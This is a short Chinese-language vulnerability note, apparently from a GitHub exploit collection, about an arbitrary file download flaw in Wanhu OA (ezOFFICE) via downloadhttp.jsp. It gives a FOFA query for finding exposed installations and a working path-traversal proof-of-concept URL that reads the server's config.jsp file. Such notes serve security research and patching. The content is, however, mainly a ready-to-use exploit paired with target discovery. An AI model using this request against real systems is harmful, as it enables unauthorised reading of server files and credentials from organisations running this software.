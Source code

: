# 万户OA downloadhttp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA downloadhttp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132806210](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201328307.png)

验证POC

```
/defaultroot/site/templatemanager/downloadhttp.jsp?fileName=../public/edit/jsp/config.jsp
```

![image-20220520132818308](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201328396.png)